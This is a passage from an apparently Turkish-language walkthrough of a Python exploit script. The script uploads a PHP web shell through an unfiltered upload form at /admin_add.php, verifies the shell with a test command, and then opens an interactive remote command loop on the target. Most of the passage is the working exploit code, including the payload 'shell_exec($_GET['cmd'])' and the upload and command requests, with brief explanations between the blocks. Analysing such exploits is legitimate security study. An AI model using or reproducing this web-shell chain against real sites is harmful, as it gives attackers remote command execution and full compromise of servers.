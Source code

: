 #### 3. Rastgele Bir PHP Dosya Adı Oluşturulur
```python
random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))
```
- **10 karakterlik rastgele bir dosya adı** oluşturulur (örneğin, `aB3dEfG9H1.php`).  
- Böylece exploit her çalıştırıldığında **farklı bir dosya adıyla yükleme yapar**.  

#### 4. PHP Web Shell Payload’ı Tanımlanır
```python
payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'
```
- PHP kodu içeren bir **web shell** oluşturur.  
- **`shell_exec($_GET['cmd'])`** kullanarak URL üzerinden **komut çalıştırmaya** izin verir.  
- Örneğin:  
  ```bash
  http://target.com/bootstrap/img/aB3dEfG9H1.php?cmd=whoami
  ```
  çağrıldığında, hedef makinede **whoami** komutu çalıştırılır ve yanıt olarak döndürülür.  

#### 5. Web Shell’i Yüklemeye Çalışır
```python
file = {'image': (random_file + '.php', payload, 'text/php')}
print('> Attempting to upload PHP web shell...')
r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
```
- **Hedef sitedeki dosya yükleme açığını kullanarak** PHP kodunu içeren bir dosya yükler.  
- `requests.post()` ile **`/admin_add.php`** sayfasına bir **HTTP POST isteği** gönderilir.  
- `files` parametresi ile **PHP dosyası** resim dosyası gibi yollanır.  

> **Hedef sistemde dosya yükleme filtreleri yoksa veya MIME-type kontrolü yapılmıyorsa, PHP kodu çalıştırılabilir.**  

#### 6. Web Shell’in Başarıyla Yüklenip Yüklenmediğini Kontrol Eder
```python
print('> Verifying shell upload...')
r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)
```
- **Web shell’in yüklendiği dizine bir GET isteği gönderilir.**  
- `cmd=echo <random_file>` çalıştırılarak, yüklenen PHP dosyasının çalışıp çalışmadığı test edilir.  


#### 7. Web Shell’in Yüklenip Yüklenmediğini Analiz Eder
##### **Başarılı Olursa:**
```python
if random_file in r.text:
    print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
    print('> Example command usage: ' + url + '/bootstrap/img/' + random_file + '.php?cmd=whoami')
```
- Eğer dönen yanıt içinde **random_file** varsa, bu **shell’in çalıştığı anlamına gelir**.  
- Kullanıcıya başarılı yükleme bilgisi verilir.  

##### Shell Kullanıcıdan Komut Bekler
```python
launch_shell = str(input('> Do you wish to launch a shell here? (y/n): '))
if launch_shell.lower() == 'y':
    while True:
        cmd = str(input('RCE $ '))
        if cmd == 'exit':
            sys.exit(0)
        r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':cmd}, verify=False)
        print(r.text)
```
- Kullanıcı **shell başlatmak istiyor mu?** diye sorar.  
- `y` derse, **sonsuz döngüye girer** ve kullanıcının girdiği komutları çalıştırır.  